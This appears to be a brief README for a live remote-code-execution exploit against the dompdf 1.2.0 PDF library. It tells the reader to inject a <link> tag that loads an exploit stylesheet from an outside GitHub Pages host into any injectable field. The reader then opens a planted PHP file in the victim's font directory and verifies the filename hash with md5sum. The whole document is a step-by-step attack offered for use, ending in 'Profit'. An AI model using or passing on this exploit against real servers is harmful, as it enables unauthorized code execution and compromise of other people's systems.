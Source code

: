 # Live RCE exploit for dompdf 1.2.0

1. Use the following <link> tag in any injectable field: `<link rel=stylesheet href='https://abhishekg999.github.io/dompdf/exploit.css'>` 
2. Navigate to `http://[VICTIM_HOST]/dompdf/lib/fonts/exploitfont_normal_de7ec71473780093df11e62fab83211f.php`
3. Profit


The hash should be correct, you can verify the hash yourself:
```console
user@console:~$ echo -n [PHP_PAYLOAD_URL_AT_IT_IS_IN_THE_CSS_FILE] | md5sum
de7ec71473780093df11e62fab83211f  -
```
